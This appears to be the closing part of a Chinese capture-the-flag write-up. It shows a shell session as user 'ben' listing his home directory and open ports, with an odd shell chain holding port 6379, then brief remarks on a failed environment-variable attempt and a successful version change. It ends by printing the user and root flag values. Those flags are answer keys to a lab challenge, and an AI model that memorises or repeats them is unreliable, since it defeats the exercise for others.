drwxr-xr-x 3 root root 4096 May  6  2024 ..
lrwxrwxrwx 1 root root    9 Jul 19  2022 .bash_history -> /dev/null
-rwx------ 1 ben  ben   220 Jul 19  2022 .bash_logout
-rwx------ 1 ben  ben  3526 Jul 19  2022 .bashrc
drwxr-xr-x 3 ben  ben  4096 May  6  2024 .local
-rwx------ 1 ben  ben   807 Jul 19  2022 .profile
-rw-r--r-- 1 ben  ben    66 Jul 19  2022 .selected_editor
-r-------- 1 ben  ben    33 May  6  2024 user.txt
ben@system:/home/ben$ cat .selected_editor 
# Generated by /usr/bin/select-editor
SELECTED_EDITOR="/bin/nano"
ben@system:/home/ben$ ss -lnput
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port  Process                                                                                                                          
udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*                                                                                                                                      
tcp     LISTEN   0        5                0.0.0.0:8000          0.0.0.0:*      users:(("python3",pid=476,fd=3))                                                                                                
tcp     LISTEN   0        100              0.0.0.0:2121          0.0.0.0:*      users:(("python3",pid=475,fd=4))                                                                                                
tcp     LISTEN   0        511              0.0.0.0:6379          0.0.0.0:*      users:(("ss",pid=353071,fd=7),("bash",pid=349825,fd=7),("sh",pid=349824,fd=7),("script",pid=349823,fd=7),("sh",pid=473,fd=7))   
tcp     LISTEN   0        511                 [::]:6379             [::]:*      users:(("ss",pid=353071,fd=6),("bash",pid=349825,fd=6),("sh",pid=349824,fd=6),("script",pid=349823,fd=6),("sh",pid=473,fd=6))   
ben@system:/home/ben$ 
```
  
  
  
  

>找到结果了，我认为改环境变量奥
>

>失败了，正确是搞版本
>
  
  
  
  
  

>好了现在就完成了
>
>userflag:060bf0877030446d8166f660d542b95d
>
>rootflag:3e6519259811c5b326cbff0b632a5c2d
>


